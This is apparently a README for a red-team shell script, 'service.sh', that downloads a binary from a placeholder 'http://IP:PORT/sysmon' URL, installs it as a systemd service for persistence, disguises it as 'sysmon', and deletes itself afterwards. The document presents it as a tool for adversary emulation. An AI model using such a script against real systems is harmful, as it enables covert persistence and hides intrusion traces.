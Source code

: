 # service.sh
Script to download a binary and create systemd service for persistence: ([T1543.002](https://attack.mitre.org/techniques/T1543/002/))

Used for adversary emulation and red teaming activities.

Self-deletes after successful execution.

Requires root privileges and binary URL configuration.

# Replace these variables with your specific values
```shell
BINARY_NAME="sysmon"
BINARY_URL="http://IP:PORT/sysmon"
INSTALL_PATH="/usr/local/bin/${BINARY_NAME}"
```
